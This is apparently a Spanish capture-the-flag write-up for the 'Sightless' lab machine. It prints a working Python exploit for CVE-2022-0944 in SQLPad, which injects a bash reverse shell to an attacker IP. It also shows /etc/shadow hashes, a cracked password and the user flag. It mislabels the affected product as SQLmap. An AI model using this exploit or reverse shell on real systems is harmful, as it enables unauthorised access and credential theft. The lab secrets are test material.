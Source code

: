 ## Payload / CVE used
- CVE-2022-0944   ([vulnhub](https://vuldb.com/es/?id.194925))
- 

---
# [[CVE-2022-0944  ]]
Versiones afectadas : SQLmap <= 6.10.0

Usamos el siguiente script de python que explota esta vulnerabilidad:
https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944


---
###  Codigo exploit
``` python
import argparse
import requests

def main():
   
    parser = argparse.ArgumentParser(description="CVE-2022-0944 RCE Exploit")
    parser.add_argument('root_url', help="Root URL of the SQLPad application")
    parser.add_argument('attacker_ip', help="attacker ip")
    parser.add_argument('attacker_port', help="attacker port")
    
    args = parser.parse_args()

    target_url = f"{args.root_url}/api/test-connection"

    payload = f"{{{{ process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1\"') }}}}"

    headers = {
        'Content-Type': 'application/json',
        'Accept': 'application/json'
    }

    #POST data (JSON body of the request)
    data = {
        "name": "test",
        "driver": "mysql",
        "data": {
            "database": payload
        },
        "database": payload
    }

    try:
        response = requests.post(target_url, headers=headers, json=data)
       
        print(f"Response status code: {response.status_code}")
        print(f"Response body: {response.text}")

        if response.status_code == 200:
            print(f"Exploit sent successfully. Check your listener on {args.attacker_ip}:{args.attacker_port}")
        else:
            print(f"Exploit sent, but server responded with status code: {response.status_code}. Check your listener.")
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    main()
```

El codigo manda un exploit a la url indicada realizando una reverse shell , el codigo se aprovecha de la vulnerabilidad de la API  en la ruta "/api/test-connection"

![[Pasted image 20241119185337.png]]
#### Poc
 


--- 

## Lateral Movement
Primero observamos que estamos en un contenedor de docker , nos dirigimos a la raiz
```bash
root@c184118df0a6:/# ls

bin
boot
dev
docker-entrypoint
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
root@c184118df0a6: cat docker-entrypoint
#!/bin/bash
set -e
# This iterates any sh file in the directory and executes them before our server starts
# Note: we intentionally source the files, allowing scripts to set vars that override default behavior.
if [ -d "/etc/docker-entrypoint.d" ]; then
    find /etc/docker-entrypoint.d -name '*.sh' -print0 | 
    while IFS= read -r -d '' line; do 
        . "$line"
    done
fi
exec node /usr/app/server.js $@
root@c184118df0a6:/# 
```

En **/etc/passwd** encontramos los siguientes ususarios que puede que existan en el host:

```c
root@c184118df0a6:/# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

el **/etc/shadow** :

```php
root@c184118df0a6:/# cat /etc/shadow
cat /etc/shadow
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root:$6$Xp276NMNA6SRQH7D$YxEGuHfFCxPINnra/Xld5xsAX03aw0oBPgdinsiUTQjbrxGbS1zZeSW.IH.brqu2PlQofZUJqkJFUisre0aa90:20046:0:99999:7:::
```
parece que el hash del usuario **michael** se encuentra en ambos pasamos a desencriptarlo con la herramienta **john**:
![[Pasted image 20241119191009.png]]

```java
insaneclownposse
```

Ahora que tenemos la clave de michael probamos a loguearnos en el host:

```bash
➜  exploitation ssh michael@sightless.htb
michael@sightless.htb's password: 
Last login: Tue Nov 19 18:05:31 2024 from 10.10.15.18
michael@sightless:~$ cat user.txt 
ea55a45b7839e324eec11ccd9da90093
```

Ya tenemos la user flag!


En **/var/lib/sqlpad** encontramos :

```bash
root@c184118df0a6:/var/lib/sqlpad# ls
cache
sessions
sqlpad.sqlite
root@c184118df0a6:/var/lib/sqlpad# 
```

Nos pasamos el sqlpad.sqlite a nuestra maquina

### Local enumeration

- /var/lib/sqlpad
- /etc/passwd
- /etc/shadow

### Atack vector

	-  hash de usuario en /etc/shadow

---

